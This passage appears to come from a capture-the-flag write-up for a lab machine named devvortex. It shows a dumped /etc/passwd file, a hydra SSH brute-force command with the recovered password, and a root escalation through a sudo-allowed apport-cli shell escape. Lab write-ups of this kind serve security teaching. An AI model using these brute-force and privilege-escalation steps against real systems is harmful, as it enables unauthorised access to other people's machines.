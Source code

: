 ```sh
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
fwupd-refresh:x:113:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
logan:x:1000:1000:,,,:/home/logan:/bin/bash
_laurel:x:997:997::/var/log/laurel:/bin/false
```
6. Use hydra to bruteforce SSH login for user logan. Password found: **tequieromucho**
```sh
hydra -l logan -P /usr/share/wordlists/rockyou.txt 10.10.11.242 ssh 
```
#### Data exfiltration
1. Login SSH and get user flag from /home/logan/user.txt: **[UserFlag]**

### Privilege escalation
1. SSH login and check possible escalation method:
```sh
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```
2. Use app on a crush report from /var/crash file
```sh
sudo /usr/bin/apport-cli -c /var/crash/_usr_bin_apport-cli.0.crash
```
3. When prompted provide *V* option
4. Run *!/bin/bash* - now you are root
#### Data exfiltration
1. Get root flag from /root/root.txt: **[RootFlag]**